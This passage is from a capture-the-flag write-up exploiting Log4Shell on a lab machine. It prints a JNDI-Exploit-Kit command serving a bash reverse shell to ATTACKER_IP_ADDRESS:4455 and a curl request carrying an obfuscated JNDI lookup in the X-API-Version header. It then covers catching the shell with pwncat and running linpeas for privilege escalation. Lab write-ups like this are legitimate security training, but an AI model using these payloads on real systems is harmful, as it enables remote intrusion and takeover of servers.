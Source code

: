 Ok, so let's try creating an RMI server that will try to execute a bash command that will give us a reverse shell on port 4455:

```bash
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'bash -i &>/dev/tcp/ATTACKER_IP_ADDRESS/4455 <&1' -R ATTACKER_IP_ADDRESS:1389 -O RMI
```
Here, our reverse shell is provided by a simpler bash reverse shell payload. This is because we're attacking the Host system, so I expected the extent of system hardening to be much lower so we should be able to just execute bash.
This JNDI exploit kit creates a nice list of URLs serving the payloads we can use:

![Payload List.](/images/shaker/JNDI-Kit.png)

We pick the exploit whose trustURLCodebase is false but have Tomcat 8+ or SpringBoot, which likely bypasses the filter that did not allow marshalsec's referal to work.

We simply have to call the provided URL from our log4j payload:

```bash
curl -H 'X-API-Version: ${${::-j}ndi:${::-r}mi://ATTACKER_IP_ADDRESS:1389/ozbud1}' http://127.0.0.1:8888
```

And catch a shell on our listener (I used pwncat in this example, which automatically stabilizes our shell):

![Reverse Shell on the Host.](/images/shaker/pwncat.png)

And we are now be able to obtain bob's host flag.

We use pwncat to upload linpeas, make it executable and run it and take a look at the output.

![Bob is a member the docker group.](/images/shaker/docker-group.png)
